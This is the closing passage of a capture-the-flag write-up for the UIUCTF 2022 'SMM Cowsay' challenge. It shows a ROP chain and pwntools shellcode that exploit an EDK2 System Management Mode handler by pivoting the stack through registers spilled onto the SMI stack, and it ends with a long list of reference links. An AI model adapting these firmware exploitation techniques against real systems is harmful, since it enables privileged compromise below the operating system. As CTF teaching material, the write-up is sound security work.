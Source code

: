 ```python
    # Read flag into RAX and then let everything chain
    # crash to simply leak it from the register dump
    0x7ee8222 , # pop rsi ; ret (do not mess up RAX with sub/add)
    0x0       , # -> RSI
    0x7fc123d , # pop rdx ; ret (do not mess up RAX with sub/add)
    0x0       , # -> RDX
    0x7ee82fe , # pop rdi ; ret
    0x44440000, # -> RDI (flag address)
    0x7ff7b2c , # mov rax, qword ptr [rdi] ; sub rsi, rdx ; add rax, rsi ; ret
]
```

### Putting it all together

We can now write the real ROP chain into our allocated buffer (let's say at
`buffer + 0x800` just to be safe), load the gadget for flipping the stack into
R14, the address of the new stack (i.e. `buffer + 0x800`) into R15, and go for
the kill.

```python
# Transform real ROP chain into .quad directives to
# easyly embed it in the shellcode:
#
#   .quad 0x7f8a184
#   .quad 0x80000033
#    ...
real_chain_size = len(real_chain) * 8
real_chain      = '.quad ' + '\n.quad '.join(map(str, real_chain))

code = asm(f'''
    /* Copy data into allocated buffer */
    lea rsi, qword ptr [rip + data]
    mov rdi, {buffer}
    mov rcx, {0x18 + len(payload)}
    cld
    rep movsb

    /* Copy real ROP chain into buffer + 0x800 */
    lea rsi, qword ptr [rip + real_chain]
    mov rdi, {buffer + 0x800}
    mov rcx, {real_chain_size}
    cld
    rep movsb

    /* Communicate(mSmmCommunication, buffer, NULL) */
    mov rcx, {mSmmCommunication}
    mov rdx, {buffer}
    xor r8, r8
    mov rax, {Communicate}

    /* These two regs will spill on SMI stack */
    mov r14, 0x7fe5269         /* pop rsp; ret */
    mov r15, {buffer + 0x800}  /* -> RSP */
    call rax

    test rax, rax
    jnz fail
    ret

fail:
    ud2

real_chain:
    {real_chain}
```

[smm1]: #smm-cowsay-1
[smm2]: #smm-cowsay-2
[smm3]: #smm-cowsay-3
[expl1]: https://github.com/TowerofHanoi/towerofhanoi.github.io/blob/master/writeup_files/uiuctf-2022_smm-cowsay/expl_smm_cowasy_1.py
[expl2]: https://github.com/TowerofHanoi/towerofhanoi.github.io/blob/master/writeup_files/uiuctf-2022_smm-cowsay/expl_smm_cowasy_2.py
[expl3]: https://github.com/TowerofHanoi/towerofhanoi.github.io/blob/master/writeup_files/uiuctf-2022_smm-cowsay/expl_smm_cowasy_3.py
[tweet]:                               https://twitter.com/MeBeiM/status/1554849894237609985
[uiuctf]:                              https://ctftime.org/event/1600/
[uiuctf-archive]:                      https://2022.uiuc.tf/challenges
[author]:                              https://github.com/zhuyifei1999
[wiki-smm]:                            https://en.wikipedia.org/wiki/System_Management_Mode
[intel-sdm]:                           https://www.intel.com/content/www/us/en/developer/articles/technical/intel-sdm.html
[uefi-spec]:                           https://uefi.org/specifications
[uefi-spec-pdf]:                       https://uefi.org/sites/default/files/resources/UEFI_Spec_2_9_2021_03_18.pdf
[man-cowsay]:                          https://manned.org/cowsay.1
[man-pahole]:                          https://manned.org/pahole.1
[x64-call]:                            https://docs.microsoft.com/en-us/cpp/build/x64-calling-convention?view=msvc-170
[x86-rsm]:                             https://www.felixcloutier.com/x86/rsm
[x86-rdrand]:                          https://www.felixcloutier.com/x86/rdrand
[gh-pwntools]:                         https://github.com/Gallopsled/pwntools
[gh-ropgadget]:                        https://github.com/JonathanSalwan/ROPgadget
[gh-edk2]:                             https://github.com/tianocore/edk2
[gh-edk2-securityex]:                  https://github.com/jyao1/SecurityEx
[gh-qemu]:                             https://github.com/qemu/qemu
[qemu-memtxattrs]:                     https://github.com/qemu/qemu/blob/v7.0.0/include/exec/memattrs.h#L35
[edk2-SystemTable]:                    https://edk2-docs.gitbook.io/edk-ii-uefi-driver-writer-s-guide/3_foundation/33_uefi_system_table
[edk2-SmiHandlerRegister]:             https://github.com/tianocore/edk2/blob/7c0ad2c33810ead45b7919f8f8d0e282dae52e71/MdeModulePkg/Core/PiSmmCore/Smi.c#L213
[edk2-EfiRuntimeServicesData]:         https://github.com/tianocore/edk2/blob/0ecdcb6142037dd1cdd08660a2349960bcf0270a/BaseTools/Source/C/Include/Common/UefiMultiPhase.h#L25
[edk2-SmmCommunicationCommunicate]:    https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdeModulePkg/Core/PiSmmCore/PiSmmIpl.c#L110
[edk2-EFI_SMM_COMMUNICATION_PROTOCOL]: https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdeModulePkg/Core/PiSmmCore/PiSmmIpl.c#L267
[edk2-copy-msg]:                       https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdeModulePkg/Core/PiSmmCore/PiSmmIpl.c#L547
[edk2-smi-entry]:                      https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/UefiCpuPkg/PiSmmCpuDxeSmm/X64/SmiEntry.nasm#L89
[edk2-gadget]:                         https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdePkg/Library/BaseLib/X64/LongJump.nasm#L54
[edk2-MdePkg]:                         https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdePkg/MdePkg.dec
[edk2-buffer-check]:                   https://github.com/tianocore/edk2/blob/7c0ad2c33810ead45b7919f8f8d0e282dae52e71/MdePkg/Library/SmmMemLib/SmmMemLib.c#L163
[edk2-gdt]:                            https://github.com/tianocore/edk2/blob/2812668bfc121ee792cf3302195176ef4a2ad0bc/UefiCpuPkg/PiSmmCpuDxeSmm/X64/SmiException.nasm#L31